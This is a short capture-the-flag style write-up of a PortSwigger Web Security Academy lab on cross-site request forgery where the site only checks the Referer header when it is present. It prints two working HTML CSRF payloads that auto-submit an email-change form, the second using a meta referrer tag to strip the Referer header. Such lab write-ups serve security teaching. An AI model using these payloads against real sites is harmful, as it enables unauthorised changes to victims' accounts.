


### CSRF where Referer validation depends on header being present

---


> Given credentials `wiener:peter`.

> Logging in with the given credentials.


> We see this page.


> We know that the update email is vulnerable to CSRF.
> Capturing a `POST` request via BURPSUITE PROXY HTTP history while updating the email address.



> We can try CSRF here because there is a relevant action, users tracked using session cookies, and there are no unidentifiable parameters.
> Crafting a payload.

```HTML
<html> 
	<body> 
		<form action="https://0ad5008a032d37c28219e791009b0007.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```

> Adding it to the exploit server, storing it, and then viewing it.



> We see that the Referer header is being used.
> We can try to remove it by adding the `<meta>` tag.

```HTML
<html> 
	<body> 
		<form action="https://0ad5008a032d37c28219e791009b0007.web-security-academy.net/my-account/change-email" method="POST"> 
			 <meta name="referrer" content="never">
			<input type="hidden" name="email" value="newmins@mins.com" /> 
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```

> Storing it and delivering to victim completes the lab.

---
